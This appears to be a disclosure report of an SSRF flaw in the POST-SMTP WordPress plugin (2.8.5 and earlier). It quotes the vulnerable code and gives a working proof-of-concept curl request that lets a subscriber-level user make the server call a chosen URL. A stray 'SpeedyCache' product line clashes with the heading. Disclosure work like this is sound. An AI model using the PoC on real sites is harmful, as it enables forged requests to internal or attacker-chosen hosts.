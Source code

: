 ### POST-SMTP<= 2.8.5 SSRF

SpeedyCache <= 2.8.5

Source: `WP_REST_Request::get_header`

Sink: `wp_remote_post`

Code: 

Postman/Mobile/includes/rest-api/v1/rest-api.php

```
public function connect_app( WP_REST_Request $request ) {
  ...
  $server_url = $request->get_header( 'server_url' );
  ...
  update_option( 'post_smtp_server_url', $server_url );
}

function update_option( $option, $value, $autoload = null ) {
  ...
  $result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
}
```

Postman/Mobile/includes/controller/v1/controller.php

```
public function disconnect_app() {
  ...
  $server_url = get_option( 'post_smtp_server_url' );
  ...
  $response = wp_remote_post(
					"{$server_url}/disconnect-app",
  ...
				);
}
```

POC:

1. Listen on 8888 on server side

2. Send the following curl request to set the server

   ```
   curl --location --request POST 'http://test-server/wp-json/post-smtp/v1/connect-app' \
   --header 'auth-key;' \
   --header 'server-url: http://127.0.0.1:8888' \
   --header 'fcm-token: bbbb'
   ```

3. Login (subscriber is also ok), visit `http://test-server/wp-admin/admin.php?action=post_smtp_disconnect_app&auth_token=bbbb`

4. Receive a request on server side. 

Status: Reported